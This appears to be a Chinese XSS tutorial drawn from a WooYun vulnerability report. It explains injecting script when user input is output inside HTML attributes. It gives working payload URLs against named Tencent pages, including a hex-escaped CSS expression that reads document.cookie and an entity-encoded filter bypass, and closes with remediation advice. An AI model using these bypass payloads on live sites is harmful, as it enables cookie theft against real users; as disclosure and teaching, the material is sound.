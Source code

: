 # 3\. 输出在 HTML 属性里的情况

# 3\. 输出在 HTML 属性里的情况

> 来源：[3\. 输出在 HTML 属性里的情况](http://www.wooyun.org/bugs/wooyun-2010-015963)

## 简要描述

和前面的不一样的时，有时候，输出会出现在 HTML 标签的属性之中。

例如： `<input value="输出">` 、 `<img onload="...[输出]...">` ，再比如 `<body style="...[输出]...">` .. 这个时候怎么办呢？

## 详细说明

1\. 大网站一般不是吃素的。前面讲到的基本情况，一般都很少遇到了。

2\. 这个时候我们可以把目光发展一下，找一找在【输出】出现在 HTML 属性里的情况。

3\. 最为典型的一种情况，是下面这样的。

```
http://xxxx.com/search.php?word=乌云欢迎您 
```

HTML 代码里则是下面这样情况的。

```
.. 关键词：<input type="text" value="乌云欢迎您" /> 
```

如果这里的 word 没过滤双引号。就会有以下的情况发生。

```
http://xxxx.com/search.php?word=乌云欢迎您" onclick="alert(1) 
```

对应的源代码如下：

```
<input type="text" value="乌云欢迎您" onclick="alert(1)" /> 
```

解析：

![image](img/Image_008.jpg)

那么当用户点击这个文本框时，就会触发 `alert(1)` 。

4\. 当然理想是美好的，现实总是残酷的，我水平有限，并没有在腾讯找到这样的例子。

因为绝大部分这样的情况， 腾讯都会做出相应的过滤。 过滤方法也挺简单，将 `"` 过滤为 `&quot;` 就行。 过滤后的代码如下：

```
<input type="text" value="乌云欢迎您&quot; onclick=&quot;alert(1)" /> 
```

5\. 一般来说，上面的情况，过滤了 `"` ，可以说是高枕无忧了，但是事实并非如此。某些情况下。我们依然可以继续 XSS。下面以腾讯 为例。

6\. 首先看第一种场景。

```
http://follow.v.t.qq.com/index.php?c=follow&a=index&appkey=801004516&bg=我是一个兵,爱国爱人民&hsize=80&name=Zhanglifenft,chengyizhong,xiangyang20112007,linchufang,leonardoit,linchufang,qingfengxu6685,zhouzhiche n001,yuguoming-ruc,luomingtitan,bjwbgq,kezuozongbianji,weibotalk,lee007,jxzhongweizhi,lihaipengtx 
```

这里的 bg 参数过滤了【几乎】所有的东西。但是它输出在了 `<body style="[这里]">`

![image](img/Image_009.jpg)

更重要的是，这里没有过滤 `\` ，反斜线， 而 css 里，允许使用转义字符, `\ + ascii` 16 进制形式。这样一来，我们就可以构造利用语句啦。

这里过滤了 expression, 我们也可以轻松的用 `expr\65ssion` 绕过。

```
http://follow.v.t.qq.com/index.php?c=follow&a=index&appkey=801004516&bg=;w:expr\65ssion\28%20eval\28\27\69\66\28\21\7 7\69\6e\64\6f\77\2e\78\29\7b\61\6c\65\72\74\28\64\6f\63\75\6d\65\6e\74\2e\63\6f\6f\6b\69\65\29\3b\77\69\6e\64\6f\77\2 e\78\3d\31\7d\27\29\29&hsize=80&name=Zhanglifenft,chengyizhong,xiangyang20112007,linchufang,leonardoit,linchufang,qin gfengxu6685,zhouzhichen001,yuguoming-ruc,luomingtitan,bjwbgq,kezuozongbianji,weibotalk,lee007,jxzhongweizhi,lihaipeng tx 
```

效果如下：

![image](img/Image_010.jpg)

这种情况，遗憾之处在于，基于 css expression 的 XSS 已经进入暮年了，只有在 IE6，7 下方能触发，受众面小。这里只是作为一个案例来讲讲。

Tips: 至于这里的转义是如何写的：步骤如下：

例如 e 的 ascii 16 进制是 65, 我们就写为 `\65 expression -> expr\65ssion`。

本例缺陷点代码：

```
<body style="overflow:auto;background-color:#我是一个兵，爱国爱人民;"> 
```

7\. 再来看下一个在属性里的案例。这个例子也是比较常见的。比如：

```
<HTML 标签 onXXXX="...[输出在这里].."> 
<a href="javascript:[输出在这里]">xxxx </a> 
```

的例子。 正好，在腾讯的这个例子中，以上 2 个情况一起出现了。 我们以其中一种进行讲解。

```
http://stock.finance.qq.com/report/search.php?searchtype_yjbg=yjjg&searchvalue_yjbg=aaaaaaaaaa 
```

看输出，如下，aaaaaaaa 出现在了 2 个点。

![image](img/Image_011.jpg)

常规来说，因为 `onxxxx="[输出]"` 和 `href="javascript:[输出]"` 与 `<script>[输出]</script>` 没有太大区别。因为[输出]所在的地方，都是 javascript 脚本。

但是`<script>[输出]</script>` 如果被过滤，往往没有太好的办法。 而上面这 2 种情况，则有一个很好的办法绕过过滤。

Tips:

在 HTML 属性中，会自动对实体字符进行转义。一个简单的比方。

```
<img src="1" onerror="alert(1)"> 
```

和

```
<img src="1" onerror="alert&#x28;1&#x29;"> 
```

是等效的

换言之，只要上面的情况，没有过滤 `&`，`#` 等符号，我们就可以写入任意字符。 看看缺陷点的代码

```
<li><input type="text" id="pagenum" class="inputstyle0814" onkeydown="if ((event.keyCode==13) && (this.value!='')) location.href='http://stock.finance.qq.com/report/search.php?offset='+this.value+'&searchtype_yjbg=yjjg&searchvalue_y jbg=aaaaaaaaaa'"/></li> 
```

JS 部分我们可以做以下构造,由于'被过滤，我们可以将'写为 `&#x27;`

```
location.href='........&searchvalue_yjbg=aaaaaa'
location.href='........&searchvalue_yjbg=aaaaaa'+alert(1)+'' location.href='........&searchvalue_yjbg=aaaaaa&#x27;+alert(1)+&#x27;' 
```

步骤如下：

![image](img/Image_012.jpg)

接着我们把代码转换为 url 的编码。 `& -> %26`, `# -> %23` 最后利用代码如下：

```
http://stock.finance.qq.com/report/search.php?searchtype_yjbg=yjjg&searchvalue_yjbg=aaaaaaa%26%23x27;%2balert(1)%2b%26%23x27; 
```

用户点击页面[GO]按钮触发。

![image](img/Image_013.jpg)

缺陷页面的 `<a href="">` 触发点的代码如下：

```
<li><div class="yebg"><a href="javascript:location='http://stock.finance.qq.com/report/search.php?offset='+document.getElementById('pagenum'). value+'&searchtype_yjbg=yjjg&searchvalue_yjbg=aaaaaaaaaa'">GO</a></div></li> 
```

## 修复方案

1\. 对于输出在 HTML 属性中的情况，需要特殊情况特殊对待，该过滤`\`的时候，请过滤`\`, 该过滤`&`的情况，则过滤掉`&`

2\. 碰到有某些修复的人用正则去判断， `&#xNNN..`, 而实际上 `&#x0NN;` `&#x00NN`, （后面自己慢慢试。。） 都是可以的。 或者是 `&#10` 进制; 以及一些特殊的 HTML 实体，如 `&quot;` 等，都要注意到，好麻烦， 最好的办法，还是 `&`过滤为 `&amp;` ：）